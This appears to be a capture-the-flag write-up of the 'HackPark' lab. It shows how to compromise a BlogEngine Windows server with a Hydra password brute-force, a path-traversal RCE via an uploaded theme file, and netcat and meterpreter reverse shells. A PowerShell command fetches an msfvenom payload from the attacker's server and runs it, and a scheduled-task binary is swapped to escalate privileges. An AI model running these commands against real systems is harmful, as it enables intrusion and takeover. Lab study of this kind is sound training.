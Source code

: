 # Scanning

Let's begin by scanning the target using RustScan.

```
rustscan -a 10.10.120.14 -r 1-65535 --ulimit 5000 -- -sVC
```

<img src="images/06.HackPark/01.png">

# Enumeration

We can see two open ports. Let's see what's running on port 80.

<img src="images/06.HackPark/02.png">

If we click on the menu icon, we can see the login page.

<img src="images/06.HackPark/03.png">

We can see that the login page belongs to blogengine.

<img src="images/06.HackPark/04.png">

Now, we will try to use the default credentials admin:admin to see if that works. But it failed. Now, let's bruteforce the password with the username admin as we know that the default username is admin.

First, we will fire up Burp Suite to see what type of request the login page is making to the web server. Let's enter admin:admin in the username and password fields and intercept this using Burp Suite.

<img src="images/06.HackPark/05.png">

We can see that the login page is making a POST request. We will now use Hydra to brute force the password field assuming the username is admin.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.120.14 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=Pw49CE7XN99O07VsfmUKlS3GQsevl39oxTcHs0fj672xrsEdiwp26MjPpiJLmnJc%2Badroz9oDltpxOKHPbB6cf7nhiuXQBiHwnZYUwx%2BFAGXtU1YQQcxOXrvAntLHand12BsvenypZEkD5DkrYrd6pOBUBnwCzdk6T3Aco66LLlCpW4A&__EVENTVALIDATION=B93mjHyaWPm5JljuEQuMNVayeIlWC4kRbNsrSF9DjvDYBb6ZBhz%2Byag9pTRt8hhBdxWgdwlqd9DiLXamGJERhiMUxR814calYKBvOWaCNKv3zyDSzKVhONt5%2BvmcuOkDTIDPGB6Bpq0Dktu4om3tg%2BjlkZrV4I5NyuuANXrlQgJH71q8&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -v
```

<img src="images/06.HackPark/06.png">

It shows that we successfully found the password for the username admin. Now, let's login using the username admin and the password we found.

<img src="images/06.HackPark/07.png">

We can see a dashboard and when we click on about, we can see the version of the blogengine.

<img src="images/06.HackPark/08.png">

Now, we will use searchsploit to find any available exploits.

<img src="images/06.HackPark/09.png">

We can see an exploit for the version 3.3.6. Now, copy that exploit to the current path.

<img src="images/06.HackPark/10.png">

We can see the description of the exploit and how to use it.

<img src="images/06.HackPark/11.png">

# Exploitation

This is a path traversal vulnerability leading to remote code execution which is caused by an unchecked theme parameter that is used to override the default theme for rendering blog pages.

Change the ip address and port number in the exploit and save it as PostView.ascx.

<img src="images/06.HackPark/12.png">

Now, navigate to the path that was mentioned in the website.

```
 http://10.10.120.14/admin/app/editor/editpost.cshtml
```

Click on the file manager icon and then upload the PostView.ascx file.

<img src="images/06.HackPark/13.png">

Let's start the netcat listener on port 2222.

```
nc -lnvp 2222
```

<img src="images/06.HackPark/14.png">

Now we will navigate to the path as show below to trigger the vulnerability.

```
http://10.10.120.14/?theme=../../App_Data/files
```

<img src="images/06.HackPark/15.png">

We received a shell in the netcat listener!

<img src="images/06.HackPark/16.png">

We will elevate out netcat shell to meterpreter shell. We will start this by generating a payload using msfvenom.

<img src="images/06.HackPark/17.png">

Start metasploit and use exploit multi/handler.

```
use multi/handler

set lhost tun0

set lport 3333

exploit
```

<img src="images/06.HackPark/18.png">

Start the python http server using the following command. It serves on port 8000 by default.

```
python -m http.server
```

Now, download the payload to the target machine and run it.

```
powershell -c wget http://10.6.10.164:8000/shell.exe -outfile shell.exe
```

<img src="images/06.HackPark/19.png">

We now got a reverse shell via metasploit!

<img src="images/06.HackPark/20.png">

# Privilege Escalation

## Method 1: Using meterpreter's getsystem

Use the command getsystem to elevate the privileges from local user to root user.

<img src="images/06.HackPark/21.png">

## Method 2: Using Windows Scheduled Task

We already have the meterpreter reverse shell. Let's see what all processes are running.

<img src="images/06.HackPark/22.png">

We can see that there are a lot of process running. Out of them WScheduler.exe is an interesting process because we can try to elevate our privileges by using the scheduled service. If we navigate to the path of SystemScheduler, there are a lot of processes. And when we navigate to events, we can see the log file 20198415519.INI_LOG.txt.

<img src="images/06.HackPark/23.png">

<img src="images/06.HackPark/24.png">

When we see the contents inside the log file, there is a specific process Message.exe running as administrator. So, let's try to replace this Message.exe with out malicious exe file with the same name.

<img src="images/06.HackPark/25.png">

We will generate a payload using msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.10.164 LPORT=5555 -f exe -o Message.exe
```

Now we will background the current meterpreter session.

```
bg
```

Now set the port to 5555 and run the exploit in background.

```
set lport 5555

exploit -j
```

Now, get back to the first meterpreter session.

```
sessions -l

sessions -i 1
```

Navigate to the path C:\Program Files (x86)\SystemScheduler. Now, move the Message.exe file to some other location.

```
mv Message.exe C:\Windows
```

Now upload the malicious file that we just created using msfvenom.

```
upload Message.exe
```

Keep the current meterpreter session to backround and check the sessions.

```
bg

sessions -l
```

We can find a new session opened as the user Administrator.

<img src="images/06.HackPark/26.png">

We now got a reverse shell as root!
